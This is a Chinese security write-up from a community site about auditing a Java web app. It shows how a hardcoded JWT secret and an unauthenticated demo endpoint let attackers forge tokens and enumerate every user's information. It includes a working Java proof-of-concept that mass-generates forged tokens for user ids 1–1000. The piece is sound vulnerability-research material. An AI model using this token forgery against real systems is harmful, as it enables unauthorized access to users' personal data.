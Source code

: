 

# 记一次代码审计中用户信息泄露漏洞挖掘及 POC 编写 - 先知社区

记一次代码审计中用户信息泄露漏洞挖掘及 POC 编写

- - -

路边捡到一份代码，抱着学习的心态和朋友一起看了看。感觉到有些安全隐患，最后看到一个危害还不错的洞。

[![](assets/1701747027-42a64a675e7dad89fca1c2a70565561b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000505-b8f8e3ca-91f5-1.png)

审 java 代码的话，常规思路就是首先就简单看看 maven，然后就是鉴权，不过 php、python 的代码我一般是不分优先级看鉴权和 sink。权限校验的代码通常会放在核心业务逻辑层。所以先简单看了看 maven，了解此系统是否使用到危险的框架、组件版本，然后进一步去确认。

[![](assets/1701747027-8d692ab90acacf832a67fab5fc85143c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000140-3ef94722-91f5-1.png)

鉴权关键文件：/core/security/util/JwtTokenUtil.java

[![](assets/1701747027-51a3221c18f9c6fa97bb2e110fed7137.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000149-4456ea44-91f5-1.png)

阅读完此部分代码值得注意的点：1.可以看到这是一个用于生成和解析 jwt 的工具类，用于在验证身份和授权过程中 jwt 的处理（用于 api 类）、2.使用到的加密算法和 SecretKey 生成方式、3.其中使用到多个方法重载 (有的构建/解析 jwt 方法太过简易)。那这就可以考虑是不是我们可以直接写个脚本生成一下有效 token 拿来进行身份认证，从而挖掘到未授权漏洞，不过还是需要进一步查看，因为第三点其中使用到多个方法重载，所以现在还不知道具体是怎么生成的 token，怎么解析的 token。  
除此之外还需注意的是一个注解：@passtoken()，先查询一下使用到了此注解的方法：

[![](assets/1701747027-760e1c929111e5e9c86266b30232b10b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000155-47f377f8-91f5-1.png)

即预设情况下就有以下 16 个可以存在@PassToken 注解从而不需鉴权的接口  
新闻相关接口  
/api/xxx/news/page  
/api/xxx/news/info/{id}  
广告相关接口  
/api/xxx/ad/info/{id}  
/api/xxx/ad/get\_ad\_list  
demo 类  
/api/xxx/demo/getUserToken  
/api/xxx/demo/errorLog  
/api/xxx/demo/log  
通知相关接口  
/api/xxx/notice/get\_notice  
发送手机验证码  
/api/xxx/sms\_code  
用户相关接口  
/api/xxx/user/mp/wx/auth  
/api/xxx/user/wx/auth  
/api/xxx/user/qq/auth/callback  
/api/xxx/user/qq/code  
/api/xxx/user/password/auth  
/api/xxx/user/mobile/auth  
/api/xxx/user/register

### 未授权访问信息泄露

重点关注 demo 类/api/xxx/demo/getUserToken：构建一个 jwt，并返回。

[![](assets/1701747027-7354c17f3fe0dfbad68f57eb8d585bcc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000311-752a1880-91f5-1.png)

这里跟进一下 36 行 buildJWT，就会发现前面谈到的，这里用了最简单的那个方法去构造 jwt，这里需留个印象。

[![](assets/1701747027-6b2f8fdd93a524b995923308662f32ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000317-789da108-91f5-1.png)

接着获取 token 验证有效性，这里需要做一些修改，将 sub 值改为账户 id

[![](assets/1701747027-65faf42a9abfe359dae6711a9618dd77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000322-7bff4284-91f5-1.png)

访问 api/v1/xxx/getUserToken 获取 token

[![](assets/1701747027-9a00baca2fe4d49893bb9478b5775b31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000327-7f02d838-91f5-1.png)

前面提到了并不是所有方法都使用到的 jwt 来鉴权，jwt 鉴权的范围在 module->api->controller 文件夹下的几个类中

[![](assets/1701747027-d0764215f62e4a033a4876d53962838f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000332-81e035f0-91f5-1.png)

测试下来会发现有个较危险的接口：/api/xx/user/info  
攻击者可以遍历 id 参数（修改 jwt 中 sub 值即可）来获取全部用户信息

[![](assets/1701747027-adfe7d178522af5c95efd9d64fe56d78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000343-880be712-91f5-1.png)

### POC 编写

思路倒是很简单：枚举 id->传入加密方法构建 token->放入请求头 Authorization->判断 response  
不过就是很遗憾遇到两个 Java 代码转等效 python 的难点  
1.使用了 UUID.randomUUID().toString() 生成一个 UUID 字符串，而在 python 中没有等效的 randomUUID  
2.generateKey 中 SecretkeySpec 方法也很抽象，python 写起来困难

所以最终就稍微麻烦了一点，先用 java 跑个 Authorizition 的字典，在用 python 去请求遍历吧，重点是能用就行。  
java 部分代码如下，将 token 放入字典 tokens.txt

```plain
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.*;

import org.apache.commons.codec.binary.Base64;
import org.joda.time.DateTime;

public class test {
    private static final SignatureAlgorithm JWT_ALG = SignatureAlgorithm.HS256;

    public static SecretKey generateKey(SignatureAlgorithm alg, String rule) {
        byte[] bytes = Base64.decodeBase64(rule);
        return new SecretKeySpec(bytes, alg.getJcaName());
    }


    public interface JwtConsts {
        String AUTH_HEADER = "Authorization";
        String SECRET = "defaultSecret";
        int EXPIRATION = 604800;
        String JWT_SEPARATOR = "Bearer ";
    }

    public static String buildJWT(SignatureAlgorithm alg, Key key, String sub, String aud, String jti, String iss, Date nbf, Integer duration) {
        DateTime iat = DateTime.now();
        DateTime exp = null;
        if (duration != null) {
            exp = (nbf == null ? iat.plusSeconds(duration) : new DateTime(nbf).plusSeconds(duration));
        }
        String compact = Jwts.builder()
                .signWith(alg, key)
                .setSubject(sub)
                .setAudience(aud)
                .setId(jti)
                .setIssuer(iss)
                .setNotBefore(nbf)
                .setIssuedAt(iat.toDate())
                .setExpiration(exp != null ? exp.toDate() : null)
                .compact();
        return io.github.yangyouwang.common.constant.JwtConsts.JWT_SEPARATOR + compact;
    }

    public static String buildJWT(String sub, String aud, String jti, String iss, Date nbf, Integer duration) {
        return buildJWT(JWT_ALG, generateKey(JWT_ALG, JwtConsts.SECRET), sub, aud, jti, iss, nbf, duration);
    }
    public static String buildJWT(String sub) {
        return buildJWT(sub, null, UUID.randomUUID().toString(), null, null, JwtConsts.EXPIRATION);
    }

    public Map<String,Object> userToken() {
        Map<String,Object> result = new HashMap<>(16);
        String token = buildJWT("1");
        result.put("token",token);
        return result;
    }

    public static void main(String[] args) {
        List<String> tokens = new ArrayList<>();

        for (int i = 1; i <= 1000; i++) {
            String token = buildJWT(String.valueOf(i));
            tokens.add(token);
        }

        try {
            Path filePath = Paths.get("tokens.txt");
            Files.write(filePath, tokens);
            System.out.println("Tokens have been successfully written to 'tokens.txt'.");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

[![](assets/1701747027-4f7293f31d948bbd36f794897d44c6e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000659-fd5b2cda-91f5-1.png)  
[![](assets/1701747027-1097f47e63820361de9a792572c9c855.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000655-fafecb22-91f5-1.png)
